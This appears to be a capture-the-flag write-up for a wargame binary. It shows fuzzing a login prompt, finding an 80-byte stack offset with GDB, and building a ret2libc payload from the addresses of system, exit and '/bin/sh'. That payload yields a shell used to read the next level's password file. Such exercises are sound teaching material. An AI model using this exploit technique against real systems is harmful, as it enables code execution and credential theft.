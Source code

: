 # Level 01

Here we find a program that first asks for a user and then for a password. But it only passes to the password if the user is correct.

By decompiling the program or using "strings", we find that the user is "dat_wil" but also a certain password "admin" which is never used.

By testing, we realize that when we enter the right user but a password too long, the program crashes. We can try to make a ret2libc.

```sh
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
```

With GDB and my pattern.py, we can find our offset for our injection.

```sh
$ python3 pattern.py 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A


(gdb) r < <(echo "dat_will"; echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
Starting program: /home/users/level01/level01 < <(echo "dat_will"; echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

$ python3 pattern.py --crash 37634136  
Buffer crashed at size: 80
```

We've got our offset, let's find the addresses we're interested in. system, exit and "/bin/sh"

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec
```

Let's write our exploit:

[ OFFSET ] [ SYSTEM ADDR ] [ EXIT ADDR ] [ ARG ADDR ]

```sh
$ (echo dat_wil; python -c 'print("A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat ../level02/.pass
```
